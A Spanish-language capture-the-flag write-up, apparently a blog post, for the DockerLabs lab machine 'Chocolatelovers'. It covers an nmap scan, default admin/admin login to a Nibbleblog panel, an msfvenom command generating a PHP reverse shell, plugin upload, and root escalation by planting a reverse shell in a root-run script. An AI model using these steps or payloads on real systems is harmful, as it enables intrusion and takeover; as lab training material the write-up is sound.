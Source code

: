 ```yaml
---
title: Chocolatelovers - DockerLabs
published: true
categories: DockerLabs
---
```


## Video de YouTube
<iframe width="560" height="315" src="https://www.youtube.com/embed/7EM-aJyq_qY" frameborder="0" allowfullscreen></iframe>
 
| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Fácil       | ElPinguinoDeMario | 


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/bfd9e0e3-2b4d-42be-b144-3ed39924fefa)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 80 `HTTP`

## Web

![image](https://github.com/romabri/romabri.github.io/assets/51706860/fb5d58ca-8a81-4384-b634-b8b8907fa723)

Vamos a mirar en el codigo fuente.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/15bcd4a1-3e83-4d7a-a84f-cc6ddd24d93e)

Esto es posiblemente una ruta de la web vamos a ver que hay

![image](https://github.com/romabri/romabri.github.io/assets/51706860/884137c1-2ece-4a50-9345-6dcc177e240a)

Tenemos un enlaze que nos lleva al admin.php nos encontramos con un panel de acceso

![image](https://github.com/romabri/romabri.github.io/assets/51706860/d419a092-2b27-49b6-9f5d-6a8adcd7cf63)

Si ponemos admin admin accedemos

![image](https://github.com/romabri/romabri.github.io/assets/51706860/f735b18e-139e-4b90-a288-d222e587df93)

Si vamos a Plugins hemos de instalar el plugin My image, y ahi haremos lo siguiente:

![image](https://github.com/romabri/romabri.github.io/assets/51706860/f7bc22a4-cdfa-4436-8554-e854239476d3)

Generaremos un payload con msfvenom para generar una reverse shell en un archivo php de la siguiente manera

msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > pwned.php

Este archivo lo subiremos dandole a browse y save changes.

Una vez hecho esto si investigamos un poco por la web vemos que en este repositorio estan los plugins http://172.17.0.2/nibbleblog/content/private/plugins/

![image](https://github.com/romabri/romabri.github.io/assets/51706860/75627b58-ee4c-4b21-81b5-9202645d5aa1)

El archivo malicioso se nos ha subido es el image.php.

Ahora vamos con net cat a quedarnos en escucha y veremos si nos manda una reverse shell.

## Intrusión

![image](https://github.com/romabri/romabri.github.io/assets/51706860/557c85c6-c4d0-493f-8510-63fcce632fd3)

Ya estamos dentro de la maquina
Si hacemos sudo -l vemos que como el usuario chocolate podemos ejecutar el php vamos a buscar como escalar con PHP

![image](https://github.com/romabri/romabri.github.io/assets/51706860/4d7c1a8d-a85a-41f1-969d-a3d5310b67c8)

## Escalada de privilegios

![image](https://github.com/romabri/romabri.github.io/assets/51706860/db03520a-1046-4e53-8226-d6d59e2d8ed7)

Ya hemos escalado 
Si hacemos un ps -e -f
Vemos un script que lo ejecuta root que no hay nada dentro vamos a intentar escalar a traves de ahí.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/a05e06e0-4587-4753-ab45-ee98faee46f1)

Modificamos el script introduciendo una reverse-shell.php de las webshells la ip la ponemos a nuestra maquina atacantes y el puerto por ejemplo ponemos el 1122 y si esperemos un momento...

![image](https://github.com/romabri/romabri.github.io/assets/51706860/8c5b94b6-c189-4340-a44a-a94a65d4c090)

YA SOMOS ROOT!



















